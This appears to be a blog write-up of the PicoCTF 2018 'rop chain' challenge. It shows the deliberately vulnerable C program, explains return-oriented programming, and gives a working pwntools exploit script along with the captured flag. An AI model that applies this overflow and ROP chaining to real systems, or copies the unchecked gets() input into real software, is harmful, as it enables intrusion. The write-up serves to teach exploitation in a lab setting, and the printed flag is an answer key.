 ```yaml
---
layout: post
title: Binary Exploitation - rop chain (350) - PicoCTF 2018
categories: [general, CTFs, Binary Exploitation]
tags: [CTFs, picoCTF2018, Binary Exploitation]
comments: true
---
```


Running the binary gives us the following output :
```text
Enter your input>
```
Out of an instinct I checked right away for either a buffer overflow or a format string vulnerability. 
```text
Enter your input> AAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
```
Okay, so it turns out there is a BoF (no format string).
Let's check for protections with `checksec.sh`:
```text
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Apparently there is a NX bit enabled, meaning we cannot use BoF to write shell-code on the stack and execute it. However, as the name of the challenge implies, we can use the **ROP** (Return Orientated Programming) technique to overcome this protection. 
ROP technique allows an attacker who has control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets", as each gadget ends with a return instruction.
* You can read more about ROP in this article for CTF101 - [ROP - CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming/).

Anyway, We're going to need to investigate further, and examine the source code is a good place to start.
* Note that in this write-up I'll use the `rop.c` file that was given for simplicity purposes. I do recommend to try use GDB or and other disassembler to analyze the binary before taking a look at the source code.

## Examine The Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
Looking at `vuln` we can immediately see that the BoF is caused due to the usage of `gets` function, which doesn't have any length check.
The most interesting function is probably `flag`, which in the beginning of it we can see that the flag is been extracted from `flag.txt`, but it'll be printed out only if the following is true:
|Conditions|
|---|
|win1 == True / 1|
|win2 == True / 1|
|arg_check2 == `0xDEADBAAD`|

So in order to fulfill the first condition we need to jump to `win1_function`, and in order to fulfill the second condition we need to jump to `win2_function`passing the value `0xBAAAAAAD` as its argument, and that's only after `win1_function` was executed.
After that we are going to need to jump right to `flag` and pass it the value `0xDEADBAAD` as an argument. 

To accomplish all of that we can use the ROP technique.
The fact we have a BoF vulnerability allows us to overwrite the return address and what's beyond that to chain several ROP gadgets together (in this case our "gadgets" are`win1/win2_function` and `flag`) resulting in several fake function stack frames. That would cause the program to jump from one function to another in the right order so all conditions are fulfilled.
 
Based on what said above, we want the stack to look like the following when returning from `vuln`:
|Before|
|---|
|**Lower Memory Addresses**|
|vuln's return address|
|something|
|something|
|something|
|something|
|**Higher Memory Addresses**|

** **

|After|
|---|
|**Lower Memory Addresses**|
|win1_function's address|
|win2_function's address|
|flag's address|
|0xBAAAAAAD|
|0xDEADBAAD|
|**Higher Memory Addresses**|

# The Script
```python
from pwn import *

win_function1 = 0x080485cb
win_function2 = 0x080485d8
flag_function = 0x0804862b


def handle_logic():
	r.recvuntil(">")
	payload = "A"*28
	payload += p32(win_function1)
	payload += p32(win_function2)
	payload += p32(flag_function)
	payload += p32(int("0xbaaaaaad", 16))
	payload += p32(int("0xdeadbaad", 16))
	r.sendline(payload)

if __name__ == "__main__":
	r = process(['/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47/rop'])
	handle_logic()
	r.interactive()
```

Flag - `picoCTF{rOp_aInT_5o_h4Rd_R1gHt_9853cfde}`
